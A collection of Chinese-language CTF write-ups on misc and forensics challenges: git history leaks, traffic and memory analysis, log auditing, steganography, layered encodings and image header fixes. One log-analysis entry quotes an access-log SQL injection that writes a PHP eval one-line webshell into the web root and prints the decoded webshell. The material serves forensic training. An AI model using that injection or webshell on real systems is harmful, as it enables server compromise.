



# CTF WP-MISC
---
## [LitCTF 2023]就当无事发生

https://www.nssctf.cn/problem/3862

* 考点：.git泄露,信息收集
* 工具：github

根据题目提示信息可知只要回溯到之前的某次github提交即有可能获取敏感信息，可以根据git的特性，查看历史commit修改记录，通过搜索找到敏感字符串，即本题flag。

只能说不愧是杂项，这种方式的题第一次见

---
## [2022蓝帽杯]手机取证1(初级)

https://www.nssctf.cn/problem/2443
https://forensics.didctf.com/challenges#%E6%89%8B%E6%9C%BA%E5%8F%96%E8%AF%81_1-41

* 考点：电子取证
* 工具：盘古石阅读器（题目提供）
* 直接使用题目提供的盘古石阅读器大概苹果测试的文件夹进行搜索即可，可以得到匹配的flag内容（图像分辨率）
  
---
## [2023陇剑杯]Wireshark1_1

https://www.nssctf.cn/problem/6359
https://forensics.didctf.com/challenges#Wireshark1_1-552

* 考点：流量分析
* 工具：wireshark
  使用wireshark查看流量包，可以通过长度和协议类型明显的看到异样的流量，进一步追踪流并阅读明文内容可知确实为入侵流量，查看目的ip地址即得flag

---
## [2022蓝帽杯]网站取证_2

https://www.nssctf.cn/problem/2452 
https://forensics.didctf.com/challenges#%E7%BD%91%E7%AB%99%E5%8F%96%E8%AF%81_2-52

* 考点：PHP代码审计
* 工具：任意文本查看工具，PHP
通过审计阅读提供的代码源文件，可以发现数据库的登录密码使用了my_encrypt()这个函数，在encrypt.php这个文件中可以找到这个函数的具体内容，其将字符串进行了AES解密后进行base64解密得到明文密码，但是要注意，这里的php环境版本比较低，所以如果php配不好的话就需要手动实现代码中的步骤，我是手动实现，也可以得到结果


---
## [OtterCTF 2018]General Info
* 考点：内存取证
* 工具：Volatility（https://github.com/volatilityfoundation/volatility3）
本题考查对于内存取证工具的使用，通过Volatility对vmem文件进行分析，找到PC名和IP即可

---
## [应急响应]welog1

https://forensics.didctf.com/challenges#welog1-703

* 考点：日志分析,PHP审计
* 工具：文本查看工具，base64
分析给出的日志，可以发现在最后的几行中出现了敏感信息`fl4g`,其中一条日志为：
```
192.168.150.1 - - [10/Mar/2023:08:23:05 +0000] "GET /index.php?id=0%27+union+select+1%2C0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22%2C3%2C4+into+outfile+%22%2Fvar%2Fwww%2Fhtml%2Ftest2.php%22%23 HTTP/1.1" 200 1194 "http://192.168.150.31:9999/index.php?id=0%27+union+select+1%2C0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22%2C3%2C4+into+outfile+%22%2Fvar%2Fwww%2Fhtml%2Ftest2.php%22--%2B+" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36"
```
将十六进制的内容写入了`/var/www/html/test2.php`这个文件，对十六进制的字符串进行解码后得得到下面的内容：


```bash
"<?php @eval($_POST['3b90d75de248ce55b66e8e30873b6000']);?>"
```
这个是典型的一句话木马，攻击者可以通过`3b90d75de248ce55b66e8e30873b6000`进行连接，即为本题的答案

---
## [FSCTF 2023]base套

https://www.nssctf.cn/problem/4587

* 考点：代码实现多重解码
* 工具：pyhton，base64
  
观察附件数据发现是一个文本量巨大的`base64`解码，尝试解了几次后发现'如'的数目变少了，所以大胆推测只要解码'如'次即可得出最后的flag，编写下面的`python`代码实现这个操作，每次进行`base64`解码前都将'如'前的内容删除，直到没有'如'接触循解码

```python
import base64

def decode_base64_loop(input_str):
    while '是' in input_str:  # 只要存在字符 '是'
        # 获取 '是' 之后的部分
        input_str = input_str.split('是', 1)[1]
        try:
            # 尝试进行 base64 解码
            decoded = base64.b64decode(input_str).decode('utf-8')
            print(f"解码结果: {decoded}")
            input_str = decoded  # 更新 input_str 为解码后的结果
        except Exception as e:
            print(f"解码失败: {e}")
            break

input_str = "flag如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如如是ZmxhZ+……"  # Base64 编码字符串
decode_base64_loop(input_str)
```

运行代码，效果如下：


得到flag

---

## [SWPU 2019]神奇的二维码 

* 考点：图片隐写，音频隐写，摩斯电码
* 工具：010editor,audicity,base64,binwalk,foremost

https://www.nssctf.cn/problem/39

不难，但很烦，套娃严重

首先题目给出的是一张二维码图片，扫码会发现没有意义

这个时候就可以想到图像隐写相关的考点

纪律性检查lsb隐写、文件详情信息等都没发现异常，放入`010editor`查看编码后发现在末尾出现了good.mp3的字样，基本可以确定是文件隐藏


使用`binwalk`和`foremost`进行检查和提取
```bash
binwalk 图片名称.png
foreost 图片名称.png -o 目标文件夹
# 或者 sudo binwalk -e MISC-神奇的二维码-BitcoinPay.png --run-as=root
```


得到一个包含了压缩文件和doc、txt文件的文件夹,对doc和txt中的`base64`码进行解码，可以得到两个密码，这两个密码可以分别用于解密其他的rar压缩包


doc中的`base64`是多次解码


解压缩后可以得到一个mp3文件，就是之前在`010editor`中看到的那个


很容易猜到是摩斯电码，查看音轨图记录即可


翻译得到答案，但是这题提交发现错误，将字符全部小写后提交正确（好像做过类似的题）


---

## [SWPU 2020]耗子尾汁

https://www.nssctf.cn/problem/50

* 考点：图片隐写，视频隐写，密码学
* 工具：010editor,视频查看工具,base64,binwalk,foremost，Affine（仿射密码）

和前面的题很像，都是从一个文件入手，分析发现含有隐藏的文件，所以这个WP只记录新的内容

当解密得到两个压缩包时，例行解密，得到一个没用的文本和一个视频`mp4`文件，播放视频发现其中有一帧出现了文字内容


`base64`解密后得到文本`sign_in`,怀疑是后面的某个密码

到这里已经没有线索了，所以再次用`010editor`分析文件，发现视频文件中华还有一个压缩文件，继续分离后得到一个`zip`压缩文件，尝试后发先其解压密码恰为之前得到的文本，解压后得到一个新的`txt`文件,内容如下：
```
R1pCVE9OUlhHVTNES05SWkdZWVRNUVJYSEEzVEtOUlVHNFpUT09KWEdFM0RLTlJZRzRaVE9RSlhHRTNEUU5aWkdaQkRNTlpXRzQzVEdOWlpHNDRUTVFaV0lJM1RNTlpXR1k0UT09PT0=

//The last layer is the single table replacement password
```
可以确定和多层编码与密码学相关

尝试后得出结论经过了下面的三次编码：（这里使用了工具的自动爆破，如果根据与字符串特征应该也能辨认出编码类型）


对最后的字符串进行单表密码替换,这里的是仿射密码



最后的flag构建需要用`_`分词

--- 

## [SWPUCTF 2021 新生赛]zipbomb

* 考点 压缩包分析，文件提取
* 工具：binwalk，foremost

和之前的文件提取题一样，通过编码查看软件可以发现异端,如下图中发现在压缩包文件的中间部分又出现了一个压缩包的格式，说明这个压缩包文件中至少有两个文件


进行提取，和之前的步骤一样，可以得到两个子压缩包，其中一个会占据巨大空间，另外一个只有1.8kb，打开即可看到文本中的flag:



---

##  [EIS 2019]misc3

* 考点：零字符加密，二进制转换
* 工具：cyberchef，toolsfx

直接对附件中的html文件查看，什么都没有发现，但考虑到这是一个misc题目，猜测会不会有零字符在其中，于是将其放入cyberchef中查看：


发现确实有零字符在其中，而且经过统计，发现只有两种不同的零字符，于是考虑是不是和二进制相关：


确实得到了flag，证明之前的猜测正确

---
VM共享文件夹挂载：
```bash
sudo mount -t fuse.vmhgfs-fuse .host:/ /home/kali/Desktop -o allow_other
```
需要通过命令行才能看到挂载的目录


---

## [D^3CTF 2022]BadW3ter
* 考点：音频隐写，图片隐写
* 工具：010editor，deepsound，ps

首先打开文件，发现是一个 wav音频文件，但是打开会报错，于是进一步查看16进制编码，结果发现其文件头不对：
wav文件头：
```
52 49 46 46 D2 84 00 00 57 41 56 45 66 6D 74 20 
```


修改为正常的文件头后，发现可以打开音频，于是继续查看是否有隐藏的内容，通过deepsound发现其确实隐藏了内容：


猜测密码就是之前那个奇怪的文件头：



提取解密的的文件，发现是一个二维码，扫码后发现又双叒叕被骗了，这里其实还是扫二维码，但是需要对这个图片做修改，通过查看其编码发现这个图片经历了ps处理，再查看文件类型，又发现是一个 TIFF 文件


最后通过 ps 操作得到新的二维码
发现有三个图层，分别为白、黑、灰，将其中的白图层调整为和灰图层一样后调整对比度即可得到新的二维码，扫码得到的flag

---

## [GKCTF 2021]你知道apng吗

https://www.nssctf.cn/problem/1390

* 考点:apng分帧
* 工具：apngdis_gui
  
使用工具直接分解后将四部分二维码都扫出来即可


---

## [SWPU 2020]找找吧

https://www.nssctf.cn/problem/48

* 考点：莫斯电码，凯撒密码，md5，图片宽高修改，gif
* 工具：010，GIFFrame，toolsfx


解压缩得到图片文件，查看文件头可以发现是一个RAR文件，通过md5解密即可得到密码（工具不太好用）


解开第二个压缩包后发现一个png图片，猜测下方还有隐藏的内容，修改高度查看，另外一个是GIF图，分帧后查看其中的密文

常用的修改各种图片的宽高：

#### **PNG 文件（高度位置固定）**


| 字节偏移 | 长度 | 内容 |
|----------|------|------|
| 0x00     | 8    | 文件签名（89 50 4E 47 0D 0A 1A 0A） |
| 0x08     | 4    | IHDR 块长度（通常是 00 00 00 0D） |
| 0x0C     | 4    | "IHDR" |
| 0x10     | 4    | **宽度（big-endian）** |
| 0x14     | 4    | **高度（big-endian）** |


#### **BMP 文件**


| 偏移 | 长度 | 含义 |
|------|------|------|
| 0x12 | 4 字节 | 图像宽度（小端） |
| 0x16 | 4 字节 | 图像高度（小端） 

#### **JPEG 文件**

JPEG 文件没有固定位置保存宽高，而是在 SOFn（Start of Frame）标记中存储。  
常见帧类型为 **0xFFC0（Baseline DCT）**，结构如下：

| 偏移（从 FFC0 开始） | 含义 |
|----------------------|------|
| +5                   | **图像高度（2 字节，大端）** |
| +7                   | 图像宽度（2 字节，大端） |

需要搜索 `FF C0`，再偏移 5 个字节，取 2 字节（big-endian）即为高度。


---

## [NCTF 2022]Signin2

https://www.nssctf.cn/problem/3254

* 考点：逆向分析
* 工具：ida
  
  通过逆向 exe 文件可以发现，其中除了基本的 ATM 功能外还有个隐藏的彩蛋，只要输入 18 个指定的字符即可触发，分别为: "↑↑↓↓←→←→ba" ，因为上下左右字符分别代表两个字符码，所以计算机读取的是 18 个字符

触发彩蛋后的效果如下，需要拉长终端查看，否则可能会导致重叠：

  

  
---